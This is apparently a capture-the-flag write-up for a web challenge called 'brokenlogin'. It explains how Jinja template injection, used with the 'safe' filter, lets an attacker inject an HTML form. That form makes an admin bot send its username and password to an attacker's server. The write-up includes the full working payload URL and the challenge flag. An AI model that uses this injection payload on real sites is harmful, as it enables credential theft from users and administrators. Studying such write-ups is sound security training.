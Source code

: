 #### Challenge:

Talk about a garbage website... I don't think anybody's been able to [log in](https://brokenlogin.web.actf.co/) yet! If you find something, make sure to let the [admin](https://admin-bot.actf.co/brokenlogin) know.

[Source code](./app.py ":ignore") [Admin bot code](./brokenlogin.js ":ignore")


---

#### Solution:

- in this challenge we need to stage the `html` page for the admin, so that he submits the secret to our server. This can be done by creating our own `form` before the one that is provided and pointing it to our server...
- inspecting the `app.py` suggest that we can exploit jinja template injection (`SSTI`) via `{{}}`. However, we are limited to just `25` characters
- to get rid of the length limitation, we can use the `message` parameter just as a proxy to another query parameter like so:
  ```https://brokenlogin.web.actf.co/?message={{request.args.p}}&p=<h1>1</h1>```
- last thing is, that the string is not rendered as `html`, but plain string, so to get rid of this issue, we will use the [safe](https://jinja.palletsprojects.com/en/3.1.x/templates/#jinja-filters.safe) jinja filter, so that the content is ignored by `escape()`

- putting it all together, we just need to provide the following `url` to admin bot and check the logs of our server...
```
https://brokenlogin.web.actf.co/?message={{request.args.p|safe}}&p=%3Cform%20action=%22https://my-server/%22%20method=%22GET%22%3E%3Cinput%20id=%22username%22%20type=%22text%22%20name=%22username%22%20/%3E%3Cinput%20id=%22password%22%20type=%22password%22%20name=%22password%22%20/%3E%3Cinput%20type=%22submit%22/%3E%3C/form%3E%3C/p%3E%3C/body%3E%3C/html%3E
```

---

<details><summary>FLAG:</summary>

```
actf{adm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9}
```

</details>
<br/>
